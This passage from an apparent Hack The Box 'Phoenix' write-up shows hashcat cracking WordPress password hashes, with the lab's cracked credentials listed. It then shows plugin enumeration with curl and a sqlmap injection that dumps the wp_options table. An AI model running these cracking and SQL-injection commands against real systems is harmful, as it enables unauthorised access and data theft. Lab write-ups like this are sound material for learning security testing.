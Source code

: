 #### Cracking hashes - Hashcat
Added the hashes into a file called `hashes.txt` and attempt to crack it:
```bash
$ hashcat -O -m 400 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt
...

Phoenix:phoenixthefirebird14
Jsmith:superphoenix
john:password@1234
Jane:
Jack:
```

We got some passwords but no luck for Jane and Jack.

### Login in as Phoenix
Login using the administrator credentials `phoenix:phoenixthefirebird14` we are stopped by OTP:
![[phoenix/images/image3.png]]

I tried many ways of circunventing the OTP but nothing works.
At this point I decided to re-enumerate the plugins installed on wordpress. Maybe we can find some vulnerable plugins. Reading the source code of the home page I could get some of them:
```bash
$ curl -k https://phoenix.htb/ | grep plugins

https://phoenix.htb/wp-content/plugins/accordion-slider-gallery (v1.4)
https://phoenix.htb/wp-content/plugins/asgaros-forum (v1.15.13)
https://phoenix.htb/wp-content/plugins/photo-gallery-builder (v1.7)
https://phoenix.htb/wp-content/plugins/timeline-event-history (v1.6)
https://phoenix.htb/wp-content/plugins/pie-register (v3.7.2.6)
```

I looked for exploits but nothing really interesting.
Wordpress stores its active plugins register in the database. It is usually located in:
- Database: wordpress
- Table: wp_options
- Column/registry: active_plugins

So i decided to play with the SQL injection a bit more and dump the `wp_options` table to see what is in this registry:
```bash
$ sqlmap -r subscribe.req --batch --risk 3 --level 5 --random-agent -D wordpress -T wp_options --dump

a:5:{i:0;s:89:"/srv/www/wordpress/../../../opt/wordpress/wp-content/plugins/asgaros-forum/skin/style.css";i:1;s:92:"/srv/www/wordpress/../../../opt/wordpress/wp-content/plugins/asgaros-forum/asgaros-forum.php";i:2;s:106:"/srv/www/wordpress/../../../opt/wordpress/wp-content/plugins/accordion-slider-gallery/accordion-slider.php";i:3;s:86:"/srv/www/wordpress/../../../opt/wordpress/wp-content/plugins/adminimize/adminimize.php";i:4;s:62:"/srv/www/wordpress/wp-content/themes/twentytwentyone/style.css";}
...[snip]...
download-from-files/download-from-files.php...
...[snip]...
```
